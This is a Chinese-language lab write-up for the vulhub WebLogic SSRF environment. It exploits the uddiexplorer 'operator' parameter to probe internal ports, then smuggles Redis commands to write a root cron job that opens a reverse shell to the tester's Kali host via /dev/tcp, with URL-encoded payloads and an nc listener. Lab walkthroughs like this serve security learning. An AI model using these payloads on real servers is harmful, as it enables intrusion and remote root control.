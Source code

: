# Weblogic SSRF漏洞

> Path  :  vulhub/weblogic/ssrf

编译及启动测试环境

```bash
docker compose up -d
```

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件

访问`http://127.0.0.1:7001/uddiexplorer/`，无需登录即可查看uddiexplorer应用

![image-20230904163330943](./imgs/image-20230904163330943.png)

点击`Search Public Registries`

![image-20230904163446567](./imgs/image-20230904163446567.png)

来到`http://127.0.0.1:7001/uddiexplorer/SearchPublicRegistries.jsp`页面

![image-20230904163509879](./imgs/image-20230904163509879.png)        

### 漏洞测试

  打开`BurpSuite`测试，点击`Search`按钮

`Ctrl+r`发送到`Repeater`模块，观察数据包

![image-20230904163944135](./imgs/image-20230904163944135.png)

根据数据包的响应信息，可以猜测`operator`参数后面可以跟一个`url地址`

利用[dnslog](http://dnslog.cn/)平台测试，生成一个域名

![image-20230904164421851](./imgs/image-20230904164421851.png)

![image-20230904164534957](./imgs/image-20230904164534957.png)

成功解析到，说明`operator`后面 可以做`url地址请求`，说明存在`SSRF 漏洞`

![image-20230904164609873](./imgs/image-20230904164609873.png)

访问一个可以访问的IP:PORT，如`http://127.0.0.1:80`

![image-20230904165857585](./imgs/image-20230904165857585.png)

发现`80`端口没有开放

在访问`7001`端口，

![image-20230904170025501](./imgs/image-20230904170025501.png)

通过错误的不同，即可探测内网状态。



环境是在`docker`上启动的，（docker环境的网段一般是172.*）

![image-20230904190933559](./imgs/image-20230904190933559.png)

#### 注入HTTP头，利用Redis反弹shell

发送三条redis命令，将弹shell脚本写入`/etc/crontab`：

反弹到kali上

```bash
set 1 "\n\n\n\n0-59 0-23 1-31 1-12 0-6 root bash -c 'sh -i >& /dev/tcp/192.168.80.141/21 0>&1'\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

进行url编码

```bash
set%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.80.141%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave
```

注意，换行符是“\r\n”，也就是“%0D%0A”。

将url编码后的字符串放在ssrf的域名后面，发送：

```bash
http://172.19.0.2:6379/saury%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn0-59%200-23%201-31%201-12%200-6%20root%20bash%20-c%20'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.80.141%2F21%200%3E%261'%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Asaury
```

kali开启监听：

```bash
nc -lvvp 21
```

bp发送请求

![image-20230904191828695](./imgs/image-20230904191828695.png)

等待计划任务生效

![image-20230904191922530](./imgs/image-20230904191922530.png)

成功拿到`shell`

### 问题解决

在使用`sudo docker-compose up -d`启动环境的时候，只启动了`weblogic`，没有启动`redis`

![image-20230904192110033](./imgs/image-20230904192110033.png)

修改如下配置

```bash
vim /etc/default/grub
GRUB_CMDLINE_LINUX_DEFAULT="vsyscall=emulate"
```

![image-20230904192226991](./imgs/image-20230904192226991.png)

`:wq`保存后，命令行运行`update-grub`

` reboot`重启，redis成功启动

> 解决方法来自:https://blog.csdn.net/weixin_43886198/article/details/111144854